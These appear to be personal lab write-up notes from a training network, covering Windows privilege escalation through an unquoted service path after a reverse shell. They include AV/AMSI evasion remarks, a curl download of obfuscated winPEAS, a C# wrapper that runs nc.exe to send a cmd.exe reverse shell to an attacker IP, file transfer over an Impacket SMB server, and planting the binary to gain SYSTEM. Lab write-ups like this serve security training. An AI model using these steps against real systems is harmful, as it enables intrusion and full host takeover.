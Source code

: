 
We have a reverse shell but but but we don't have full access to the system which means that Thomas done security works on this so we have to see how to escalate the privileges from here. Will try to run Winpeas but it might get picked up the AV.

We have the winpeas copy with obfuscated and  
https://github.com/carlospolop/PEASS-ng

Things to keep in mind:
We have the manual enumeration option.
Defender will definitely pick the copy of winpeas but unlikely to catch .bat or obfuscated .exe
version.
But main thing we have to keep in mind to bypass is AMSI will alert defender if we try to 
load any PowerShell Priv-sec check scripts.

```
whoami /priv
```

```
whoami /groups
```
![[Pasted image 20240121004602.png]]

Start by looking for non-default services:
```
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```
![[Pasted image 20240121004855.png]]
![[Pasted image 20240121005421.png]]

As you can see that `SystemExploreHelpService` does not have quotes in the path the rings a bell to the mind that _Unquoted Service Path_ attack and escalate from here.

```
sc qc SystemExplorerHelpService
```
![[Pasted image 20240121010030.png]]

The service is running as LocalSystem which means now we have to check if we have write permission or not
```
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
```
![[Pasted image 20240121010229.png]]


This means that we can create our unquoted service path exploit, but we could also perform attacks such as DLL hijacking, or even outright replacing the service executable with a malicious binary.

```
curl http://10.50.102.187/winPEASx64_ofs.exe -o C:\xampp\htdocs\resources\uploads\sardarji-win.exe
```
![[Pasted image 20240121011328.png]]

Finally able to run the winpeas ofs file aka obfuscated file
![[Pasted image 20240121013007.png]]

As you can see there is lot of vulnerability's here due to not upto date patching and updating of files
![[Pasted image 20240121013107.png]]

This is what we have found earlier and verified by the user
![[Pasted image 20240121013347.png]]

![[Pasted image 20240121013522.png]]

Will make a file with name wrapper.cs
```
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc.exe", "10.50.102.187 4444 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```

```
gedit Wrapper.cs
```
```
mcs Wrapper.cs
```
![[Pasted image 20240121215236.png]]

Now will learn a new way to transfer the file for that will use Impacket toolkit
Impacket SMB server

```
python /opt/impacket-0.9.19/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
```


```
net use \\10.50.102.187\share /USER:user s3cureP@ssword
```

```
copy \\10.50.102.187\share\Wrapper.exe %TEMP%\wrapper-sardarji.exe
```
![[Pasted image 20240121215947.png]]

It is often useful to just leave an SMB server running in the background when working with Windows targets. We will use this server later, so let's leave it up for now.

```
net use \\10.50.102.187\share /del
```
![[Pasted image 20240121220114.png]]
But will delete it for now 

```
"%TEMP%\wrapper-sardarji.exe"
```
![[Pasted image 20240121220608.png]]

![[Pasted image 20240121220629.png]]
Volla we got the reverse shell but still we are not the root user.

So it's now time to exploit that unquoted service path vulnerability!

This is the path
```
C:\Program Files (x86)\System Explorer\SystemExplorer\service\SystemExplorerService64.exe
```
There are technically three places we _could_ add our program here:
If you recall we have already checked the write permission of SystemExplorer and we have full access.

```
copy %TEMP%\wrapper-sardarji.exe "C:\Program Files (x86)\System Explorer\System.exe"
```
![[Pasted image 20240121224707.png]]

Now will check if we have copied the file or not 
```
dir "C:\Program Files (x86)\System Explorer\"
```
![[Pasted image 20240121224811.png]]

![[Pasted image 20240121225208.png]]
We have 5 minute time otherwise the script will be deleted by the AV

```
sc stop SystemExplorerHelpService
```

```
sc start SystemExplorerHelpService
```

![[Pasted image 20240121225354.png]]

Guess what we have the reverse shell but with root authority
![[Pasted image 20240121225444.png]]

Now we need to delete the wrapper file as it's not a window's file that's why we got the error in the first place and it's a good habit to do that.
```
del "C:\Program Files (x86)\System Explorer\System.exe"
```

```
sc start SystemExplorerHelpService
```

![[Pasted image 20240121225825.png]]


>[! question] **Bonus Question (optional):**
>Research how to write a real Windows Service executable in C# and try to create a wrapper (or even a full reverse shell!) that doesn't cause the `sc start` command to error out.

- [ ] Bonus quesiton

This is make a new user with a know password but it will bypass the AV so will keep it in our back pocket for now.
[windows dotnet blog](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/walkthrough-creating-a-windows-service-application-in-the-component-designer)

[](https://www.c-sharpcorner.com/article/create-windows-services-in-c-sharp/

https://github.com/mattymcfatty/unquotedPoC


